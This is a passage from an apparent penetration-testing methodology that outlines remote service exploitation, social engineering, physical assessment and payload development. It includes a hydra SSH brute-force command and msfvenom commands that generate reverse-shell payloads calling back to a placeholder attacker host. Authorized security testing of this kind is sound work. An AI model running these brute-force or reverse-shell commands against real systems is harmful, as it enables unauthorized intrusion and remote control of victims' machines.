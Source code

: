 ### 4.3 Remote Service Exploitation
```bash
# SSH brute force (if authorized)
hydra -L users.txt -P passwords.txt ssh://target.com

# RDP exploitation
# Test for weak RDP credentials or vulnerabilities

# VPN exploitation
# Test VPN endpoints for vulnerabilities or weak authentication
```

## Phase 5: Social Engineering

### 5.1 Phone-Based Social Engineering
```bash
# Employee directory compilation
# Gather employee information from public sources

# Pretext development
# Create convincing scenarios for phone-based attacks

# Information gathering calls
# Conduct authorized social engineering calls (with proper approval)
```

### 5.2 Physical Security Assessment
```bash
# Facility reconnaissance
# Observe physical security controls (with authorization)

# Badge cloning preparation
# Assess RFID/proximity card security (if in scope)

# Tailgating opportunities
# Identify physical access control weaknesses
```

## Phase 6: Payload Development and Delivery

### 6.1 Custom Payload Creation
```bash
# Generate reverse shells
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-ip LPORT=4444 -f exe -o payload.exe

# PowerShell payloads
msfvenom -p windows/powershell_reverse_tcp LHOST=attacker-ip LPORT=4444 -f raw > payload.ps1

# Linux payloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker-ip LPORT=4444 -f elf > payload
```
